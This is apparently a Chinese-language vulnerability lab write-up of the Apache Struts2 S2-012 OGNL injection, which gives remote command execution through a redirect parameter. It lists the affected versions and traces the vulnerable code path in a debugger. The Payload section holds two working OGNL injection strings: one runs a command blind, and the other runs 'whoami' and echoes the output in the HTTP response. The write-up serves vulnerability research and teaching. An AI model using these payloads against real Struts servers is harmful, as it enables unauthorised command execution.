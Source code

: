 # S2-012 Demo

## Summary

Impact of vulnerability: Remote command execution

Affected Software: `Struts Showcase App 2.0.0` - `Struts Showcase App 2.3.14.2 `

Problem: 在`S2-003`、`S2-005`和`S2-009`中已经解决了`OGNL`表达式解析问题，但是由于它只涉及参数名的防护，没有考虑到参数值注入`OGNL`表达式。因此基于参数名白名单(`acceptableName`)和禁止方法执行(`denyMethodExecution`)的方式只能部分修复漏洞，不能完全解决。

当`action`中配置`result`为`redirect`并且传递了某个参数，在触发`redirect`类型返回时，`Struts2` 获取使用`${name}` 获取其值，在这个过程中会对`name`参数的值执行` OGNL` 表达式解析，从而可以插入任意 `OGNL` 表达式导致命令执行。

```java
<action name="index" class="org.test.IndexAction">
	<result name="redirect" type="redirect">/redirect.action?user=${name}</result>
</action>
```

## Environment

Struts2 Version: `Struts-2.2.3`

Server: `Tomcat 8.5.53`.

IDE: `idea 2020.1.1 ULTIMATE`

## POC

![20200717095816](img/20200717095816.jpg)

## Payload

无回显

```java
%{(#context['xwork.MethodAccessor.denyMethodExecution']=false)(#_memberAccess['allowStaticMethodAccess']=true)(@java.lang.Runtime@getRuntime().exec('calc'))}
```

有回显

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

## Debug

在`ParametersInterceptor`的`doIntercept`方法下断点，提交无回显`payload`触发断点（`calc`方便知道哪行代码执行了`ognl`语句）：

`s2-012/web/WEB-INF/lib/xwork-core-2.2.3.jar!/com/opensymphony/xwork2/interceptor/ParametersInterceptor.class:92`

![setParameters](img/setParameters.jpg)

跟入`setParameters`，可以看到只是检查了参数名是否合法，然后将参数名和参数值放入`newStack`：

```java
		...
		Iterator i$ = params.entrySet().iterator();

        while(i$.hasNext()) { //遍历检查参数名是否合法
            Entry<String, Object> entry = (Entry)i$.next();
            String name = (String)entry.getKey();
            boolean acceptableName = this.acceptableName(name) && (parameterNameAware == null || parameterNameAware.acceptableParameterName(name)); 
            if (acceptableName) {
                acceptableParameters.put(name, entry.getValue());
            }
        }

        ...

        Iterator i$ = acceptableParameters.entrySet().iterator(); 

        while(i$.hasNext()) {
            Entry<String, Object> entry = (Entry)i$.next();
            String name = (String)entry.getKey();
            Object value = entry.getValue();

            try {
                newStack.setValue(name, value); //将合法的参数对放入newStack
            } catch (RuntimeException var16) {
                ...
            }
        }
```

跳回`doIntercept`, 执行`invocation.invoke()`，通过`invokeActionOnly()`获取到了`action`的返回值`redirect`：

![image-20200720112707313](img/invokeActionOnly.png)

跟入`executeResult()`，看看是如何处理`redirect`的：

![image-20200720113107400](img/executeResult.png)

继续跟入`result.execute()` -> `super.execute()` -> `conditionalParse()` -> `translateVariables()`：

经过一波字符串操作，将`ognl`表达式（`name`）提取了出来，并在`stack`中查找到的值进行替换：

![image-20200720114721752](img/translateVariables.png)

继续循环，`name`已经被替换为了`payload`，在执行`stack.findValue()`时执行了ognl表达式。

![image-20200720142038521](img/findValue2.png)

回到execute()函数，进入doExecute()，执行请求转发操作：

s2-012/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/dispatcher/StrutsResultSupport.class:60

![image-20200720150512188](img/doExecute.png)

![image-20200720145033650](img/sendRedirect.png)

## Reference

- [S2-0012](https://cwiki.apache.org/confluence/display/WW/S2-012)

- [S2-012 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-012/README.zh-cn.md)